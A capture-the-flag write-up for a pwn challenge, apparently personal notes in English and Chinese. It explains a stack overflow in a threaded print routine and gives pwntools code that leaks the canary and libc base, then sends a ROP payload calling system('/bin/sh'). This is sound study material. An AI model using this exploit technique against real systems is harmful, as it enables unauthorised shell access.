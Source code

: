 # 1.0 Challenge

1. where is the leaking point?
2. how to find the canary?
3. canary rec, why need + b'\0'
4. leak stack find libc base 
5. how to build ROP 

# 2.0 Analysis

source code 
parsecmd 
```cpp
__int64 __fastcall parsecmd(const char *a1, __int64 a2)
{
  pthread_t *v2; // rax
  char *endptr[3]; // [rsp+18h] [rbp-18h] BYREF

  endptr[2] = __readfsqword(0x28u);
  endptr[1] = 0;
  endptr[0] = 0;
  pa = 0;
  unk_4040D0 = 0;
  if ( !strncmp(a1, "CHUNKS ", 7u) )
  {
    nthread = strtoul(a1 + 7, 0, 10);
    if ( nthread > 0xAu )
      errx(-1, "bad number of threads");
    printf("set nthread to %u\n", nthread);
  }
  else if ( !strncmp(a1, "CHUNK ", 5u) )
  {
    if ( nthread )
    {
      LODWORD(pa) = strtoul(a1 + 6, endptr, 10);
      DWORD1(pa) = strtoul(endptr[0] + 1, endptr, 10);
      *(&pa + 1) = endptr[0] + 1;
      unk_4040D0 = a2 - (endptr[0] + 1 - a1);
      v2 = curthread;
      curthread += 8LL;
      pthread_create(v2, 0, print, &pa);
      --nthread;
    }
    else
    {
      puts("no threads remaining");
    }
  }
  else if ( !strncmp(a1, "CHONK ", 5u) )
  {
    puts(chonk);
  }
  else
  {
    puts("unknown command");
  }
  return 0;
}
```
print function
```cpp
void *__fastcall print(void *a1)
{
  int v3; // [rsp+10h] [rbp-60h]
  unsigned int seconds; // [rsp+14h] [rbp-5Ch]
  _QWORD dest[10]; // [rsp+20h] [rbp-50h] BYREF

  dest[9] = __readfsqword(0x28u);
  memset(dest, 0, 64);
  v3 = *(a1 + 1);
  seconds = *a1;
  memcpy(dest, *(a1 + 1), *(a1 + 2));
  while ( v3-- )
  {
    puts(dest);
    sleep(seconds);
  }
  return 0;
}
```
USAGE 

![[Pasted image 20250716220629.png]]
first need to 
CHUNKS `NUM OF THREAD`
CHUNK `TIMESLEEP` `REPEAT` `CHAR`

the customize print so I assume need to do something from here 
# 3.0 Solution
## 3.1 FIND THE LEAKING POINT 
PRINT 这边是最后把 a1 给到 dest
so 这个 dest 是 收到 rbp - 0x50
![[Pasted image 20250716221045.png]]
而且没有 \x00? 不知道 有没有关系
会把 dest 压满 然后带出后面的 value 

## 3.2 HOW TO FIND THE CANARY
因为dest 是 0x50 所以 canary 通常会在 return 前一个 so 0x50 - 1 = 0x49
```
void *__fastcall print(void *a1)
{
  int v3;                   // [rsp+10h]  → rbp - 0x60
  unsigned int seconds;     // [rsp+14h]  → rbp - 0x5C
  _QWORD dest[10];          // [rsp+20h]  → rbp - 0x50
                            //            → rbp - 0x50 to rbp - 0x08
  dest[9] = __readfsqword(0x28u); // writes canary at rbp - 0x08
  ...
}
```
这边我直接用别人的leaking 一定要补齐 8 个 
manual
一开始 是 rc(7) 要加 b'\0'  + rc(7) 才能转 u64
```python
# leak
# must + b'\0'
canary = u64(b'\0'+rc(7))
print("canary:",hex(canary))
leak_stack = u64(b'\0'*2+ru7f())
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
dbg()
```
后面的 leak stack 是直接拿 罢了 然后对着 vmmap diff
记得要补齐 不确定的话可以len(rl()) 看length 

auto 一点
```python
# must + b'\0'
leak=b'\x00'+rl().strip()
warn(f"Thread leak: {leak}")
canary = u64(leak[:8])
print("canary:",hex(canary))
leak_stack = u64(leak[8:]+b'\x00'*(8-len(leak[8:])))
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
libc.address=libc_base
# dbg()
```

## 3.3 HOW TO BUILD ROP

下面是auto way 去找 也可以ropgadget 
主要都有了
```python
libc.address=libc_base
# dbg()

# ROP
rop = ROP(libc)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
```

attack payload 
就是 offset + canary + 随便 8 个 + ret + pop_rdi + bin_sh + system
可是我看到有人
就是 offset + canary + 随便 8 个 + pop_rdi + bin_sh + ret + system 也可以 
还有
我看到没有ret 也可以 ？？？？就以防万一 alignment 问题
```
# attack payload 
offset = 0x48
payload = b'CHUNK 1 1 ' 
payload += b'a' * offset 
payload += p64(canary)
payload += b'b' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
```
# 4.0 FLAG 
L3AK{m30w_m30w_1n_th3_d4rk_y0u_c4n_r0p_l1k3_th4t_c4t}

# 5.0 FINAL SCRIPT 
![[exploit3.py]]
